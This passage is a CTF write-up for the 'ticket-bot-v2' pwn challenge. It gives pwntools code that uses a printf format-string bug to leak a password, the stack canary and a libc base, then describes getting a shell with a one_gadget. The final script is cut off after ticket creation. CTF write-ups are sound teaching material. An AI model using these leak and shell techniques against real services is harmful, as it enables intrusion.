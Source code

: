 See above the global variable layout. The blue arrow is the end of the `tickets` array and the red arrow is the `password` value we can leak. 

So, now to write the exploit. We'll use the `printf` vulnerability to leak the canary and libc using the same methodology mentioned in `shelltester-v2` for finding 
out what `x` value to specify when doing `%{x}$p` to get a leak. The python code for doing so is below. 

```py
p.sendlineafter(b'here:\n', b'idk')

# Make 5 tickets
for x in range(5):
    p.sendline(b'1')
    p.sendline(b'idk')

# View ticket/leak
p.sendline(b'2')
p.sendline(b'5')

p.recvuntil(b'idk')

# Grab Password
leak = p.recvline()
print(leak[4:12])
password = u64(leak[1:9].ljust(8, b'\x00'))

# Get the canary, at stack offset 7
p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')
p.sendline(b'%7$p')
p.recvuntil(b'0x')
canary = int(p.recvline()[:16], 16)
print(f"Canary = {hex(canary)}")

# Get the libc leak (write() + 23)
p.sendline(b'3')
p.sendline(str(password).encode())
p.sendline(b'1')
p.sendline(b'%3$p')
p.recvuntil(b'0x')
libc_write = int(p.recvline()[:12], 16)
libc.address = (libc_write - 23) - libc.symbols.write
print(hex(libc.address))
```
Now that we've got everything, we can send in the final exploit chain. We can use the `one_gadget` tool on the provided libc to grab the offset of a `one_gadget`
that works and then send in our payload. And voila, we get a shell! Full script is as follows. 

```python
from pwn import *
elf = context.binary = ELF("chal_patched")
libc = ELF("libc.so.6")
context.terminal = ['tmux', 'split-window', '-h']
#p = elf.process()
p = remote("ticket-bot-v2.challs.csc.tf", 1337)

p.sendlineafter(b'here:\n', b'idk')

# Make 5 tickets
for x in range(5):
    p.sendline(b'1')
    p.sendline(b'idk')

```